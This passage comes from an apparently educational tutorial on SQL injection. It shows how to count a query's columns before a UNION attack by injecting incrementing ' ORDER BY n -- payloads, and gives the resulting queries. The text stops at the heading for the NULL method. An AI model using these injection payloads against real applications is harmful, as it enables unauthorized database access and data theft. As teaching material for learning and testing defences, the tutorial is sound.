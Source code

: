 As we previously mentioned, in order to do a correct UNION attack you must return the same number of columns and they must have the same data type. Here we will discuss how we can obtain this information. 

**Obtaining the number of columns with ORDER BY**

There are two ways of obtaining this information. The first one is using the **ORDER BY** keyword. 


>The **ORDER BY** keyword is used in SQL to order the results. Usually, the **ORDER BY** keyword will be followed by the column name that should be considered for ordering, but it also accepts the column index
{: .prompt-info}

So, if we have already discovered that is SQLi vulnerable, before starting to use the UNION, we can inject the ORDER BY in the normal query, several times until we get an error (or a different response). 

If we inject: 

```sql
' ORDER BY 1 --
```

The resulting query could look like this: 

```sql
SELECT name,price FROM products WHERE CATEGORY = ''ORDER BY 1 --AND RELEASED = '1
```

This will return the same results but ordered by name. Since we didn’t get any error, we will keep trying, now with: 

```sql
' ORDER BY 2 --
```

Again, the resulting query would be: 

SELECT name,price FROM products WHERE CATEGORY = ''ORDER BY 1 --AND RELEASED = '1

```sql
SELECT name,price FROM products WHERE CATEGORY = ''ORDER BY 2 --AND RELEASED = '1
```

We won’t get an error yet, but now the results should be ordered by price. Let’s keep trying: 

```sql
' ORDER BY 3 --
```

And:

```sql
SELECT name,price FROM products WHERE CATEGORY = ''ORDER BY 3 --AND RELEASED = '1
```

Now we will get an error since the query is only returning 2 columns (*name* and *price*) and we are asking to order by the third column (that doesn’t exist). So now we know that when doing the union attack, we will need to return 2 values in the injected query if we want it to succeed. 

**Obtaining the number of columns with NULL**

